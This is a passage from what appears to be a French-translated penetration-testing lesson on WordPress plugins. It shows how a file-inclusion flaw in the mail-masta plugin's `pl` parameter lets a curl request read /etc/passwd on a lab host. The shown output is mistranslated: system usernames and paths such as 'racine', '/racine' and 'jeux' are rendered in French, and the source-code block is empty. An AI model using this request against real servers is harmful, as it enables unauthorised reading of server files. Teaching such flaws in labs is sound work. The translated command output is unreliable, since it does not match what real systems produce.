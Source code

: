 ```

```

Comme nous pouvons le voir, le paramètre `pl` nous permet d'inclure un fichier sans aucun type de validation ou de nettoyage des entrées. En utilisant cela, nous pouvons inclure des fichiers arbitraires sur le serveur Web. Exploitons cela pour récupérer le contenu du fichier `/etc/passwd` à l'aide de `cURL`.

Plugins vulnérables - mail-masta

```
dsgsec@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

racine:x:0:0:racine:/racine:/bin/bash
démon:x:1:1:démon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
jeux:x:5:60:jeux:/usr/jeux:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
sauvegarde:x:34:34:sauvegarde:/var/sauvegardes:/usr/sbin/nologin
list:x:38:38:Gestionnaire de liste de diffusion :/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
personne:x:65534:65534:personne:/inexistant:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:synchronisation de l'heure systemd,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/inexistant:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/inexistant:/usr/sbin/nologin
tss:x:106:111:pile logicielle TPM,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/inexistant:/usr/sbin/nologin
paysage:x:109:115::/var/lib/paysage:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:démon usbmux,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false

```

#### Plugins Vulnérables - wpDiscuz
